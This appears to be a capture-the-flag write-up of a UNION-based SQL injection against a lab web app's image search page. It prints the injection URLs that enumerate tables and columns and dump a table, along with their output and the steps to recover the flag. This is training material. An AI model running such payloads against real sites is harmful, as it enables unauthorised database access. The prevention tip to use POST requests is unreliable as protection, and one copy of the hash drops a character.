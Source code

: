 # Sql_Advanced_Injection

The GET parameter in the image search form is vulnerable to sql injection

## Method

Go to the search image page (<http://192.168.1.102/?page=searchimg>)  
In the search field search '1 and 1 = 1' (which shows you that the form is vulnerable)

## Manipulation

### getting the table name

```

http://192.168.1.102/?page=searchimg&id=-1 union select table_name, 0 from information_schema.tables where table_schema=database()&Submit=Submit

```

#### result

```

ID: -1 union select table_name, 0 from information_schema.tables where table_schema=database() 
Title: 0
Url : list_images

```

### getting the column names

```

http://192.168.1.102/?page=searchimg&id=-1 union select column_name, column_type from information_schema.columns where table_schema=database()&Submit=Submit

```

#### result

```

ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: int(11)
Url : id
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(40)
Url : url
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(25)
Url : title
ID: -1 union select column_name, column_type from information_schema.columns where table_schema=database() 
Title: varchar(255)
Url : comment

```

### getting information we need

```

http://192.168.1.102/?page=searchimg&id=-1 union select title, comment from list_images&Submit=Submit

```

#### result

```

ID: -1 union select title, comment from list_images 
Title: An image about the NSA !
Url : Nsa
ID: -1 union select title, comment from list_images 
Title: There is a number..
Url : 42 !
ID: -1 union select title, comment from list_images 
Title: Google it !
Url : Google
ID: -1 union select title, comment from list_images 
Title: Yes we can !
Url : Obama
ID: -1 union select title, comment from list_images 
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?
ID: -1 union select title, comment from list_images 
Title: Because why not ?
Url : tr00l

```

You can see that it gives us this helpful part that says "If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
We then follow this intruction to get the flag we need.

## How to get the flag

Decode the hash 1928e8083cf461a51303633093573c4 using md5.gromweb.com website.  
Which gives us the original string "Albatroz"  
lower all characters and as per the instructions Sh-256 of albatroz is:  
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188 which is the flag

## Prevention

>Everything has to be done through so-called prepared SQL queries, the ORMs do a good job of protecting info. (cf: PDO :: prepare)  
>Try sending forms as post requests
